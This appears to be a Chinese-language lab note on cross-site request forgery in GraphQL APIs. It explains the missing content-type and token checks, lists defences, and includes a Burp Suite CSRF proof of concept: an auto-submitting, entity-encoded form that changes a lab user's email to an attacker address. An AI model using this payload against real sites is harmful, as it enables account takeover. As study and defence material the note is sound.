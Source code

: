 ### GraphQL CSRF 漏洞成因

内容类型校验缺失

- 安全请求：`Content-Type: application/json` 的 POST 请求需 JS 发起
- 漏洞点：若允许 `GET` 或 `x-www-form-urlencoded`，攻击者可通过 HTML 表单自动提交恶意请求

CSRF 令牌缺失

- 未强制要求请求携带 CSRF 令牌（如 `X-CSRF-Token`）
- 后果：攻击者可伪装成合法用户执行操作

防御建议：

- 仅允许 `application/json` 的 POST 请求
- 强制使用 CSRF 令牌验证请求来源

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a7f004b035c19808168572f000d00cb.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker&#64;hacker&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

正常请求：Content-Type: application/json

![image-20250515175521949](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515175521949.png)

允许的其他请求：Content-Type: x-www-form-urlencoded

![image-20250515175508834](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515175508834.png)


